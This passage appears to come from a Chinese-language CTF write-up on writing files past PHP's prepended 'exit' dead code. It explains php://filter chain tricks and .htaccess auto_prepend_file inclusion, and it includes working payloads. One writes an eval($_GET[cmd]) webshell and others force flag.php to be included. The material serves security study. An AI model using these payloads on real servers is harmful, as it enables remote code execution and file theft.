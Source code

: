 
> 
**过滤器嵌套：**<br/> 如果环境是php7的话，也可以使用过滤器嵌套的方法来做<br/> 流程是先将三个过滤器叠加之后进行压缩，然后转小写，最后再解压，这样的流程执行结束后会导致部分死亡代码错误，便可以写进去我们想要写入的shell，原理很简单，就是利用过滤器嵌套的方式让死亡代码在各种变换之间进行分解扰乱，最终变成php无法识别的字符


```
经测试可用的Payload：

?file=php://filter/zlib.deflate|string.tolower|zlib.inflate|/resource=a.php
POST DATA
content=php://filter/zlib.deflate|string.tolower|zlib.inflate|?&gt;&lt;?php%0deval($_GET[cmd]);?&gt;/resource=a.php
或者(没试过)
content=php/:|&lt;?php%0Dphpinfo();?&gt;/resource=test3.php

```

> 
**.htaccess的预包含利用：**<br/> .htaccess是一个纯文本文件，里面存放着Apache服务器配置相关的一些指令，它类似于Apache的站点配置文件，但只作用于当前目录，而且是只有用户访问目录时才加载，通过该文件可以实现网页301重定向，自定义404错误页面，改变文件拓展名，禁止目录列表等<br/> 通过 php_value 来设置 auto_prepend_file或者 auto_append_file 配置选项包含一些敏感文件，同时在本目录或子目录中需要有可解析的 php 文件来触发，这时无论访问那个文件，都会解析出flag.php<br/> `php_value auto_prepend_file +文件绝对路径（默认为当前上传的目录）`


```
Payload：

?file=php://filter/write=string.strip_tags/resource=.htaccess
POST DATA
content=?&gt;php_value%20auto_prepend_file%20D:\phpstudy\phpstudy_x64\phpstudy_pro\WWW\H3rmesk1t\flag.php

```

#### 第二种情况

```
&lt;?php
if(isset($_GET['content'])){
    $content = $_GET['content'];
    file_put_contents($content,"&lt;?php exit();".$content);
}else{
    highlight_file(__FILE__);
}

```

> 
这种情况和上面第一种便有点不同了，因为是一个变量，但还是可以利用php伪协议进行嵌套过滤器来消除死亡代码的，可以利用.htaccess进行预包含，然后读取flag


> 
**.htaccess预包含绕过：**<br/> 可以直接自定义预包含文件，这里直接包含了.htaccess导致了所有文件都包含flag.php文件<br/> 这里我本机测试时无法执行.htaccess，借用了一下别人的图 (还是太菜了~~)


```
payload：

?content=php://filter/string.strip_tags/?&gt;php_value auto_prepend_file D:\flag.php%0a%23/resource=.htaccess

```
